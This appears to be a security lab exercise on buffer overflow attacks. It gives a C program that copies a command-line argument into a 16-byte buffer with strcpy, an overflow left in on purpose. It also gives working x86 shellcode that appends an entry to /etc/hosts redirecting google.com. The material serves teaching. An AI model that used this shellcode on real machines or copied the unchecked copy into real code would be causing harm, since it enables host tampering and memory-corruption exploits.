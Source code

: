 # Task 1: Software buffer overflow attack

## Problem Statement

Given a vulnerable C program:

```c
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
    char buffer[16];
    strcpy(buffer,argv[1]);
    return 0;
}
```

And a shellcode in assembly that adds a new entry to the hosts file:

```asm
global _start

section .text

_start:
    xor ecx, ecx
    mul ecx
    mov al, 0x5     
    push ecx
    push 0x7374736f     ;/etc///hosts
    push 0x682f2f2f
    push 0x6374652f
    mov ebx, esp
    mov cx, 0x401       ;permissions
    int 0x80            ;syscall to open file

    xchg eax, ebx
    push 0x4
    pop eax
    jmp short _load_data    ;jmp-call-pop technique to load the map

_write:
    pop ecx
    push 20             ;length of the string, don't forget to modify if changes the map
    pop edx
    int 0x80            ;syscall to write in the file

    push 0x6
    pop eax
    int 0x80            ;syscall to close the file

    push 0x1
    pop eax
    int 0x80            ;syscall to exit

_load_data:
    call _write
    google db "127.1.1.1 google.com"
```
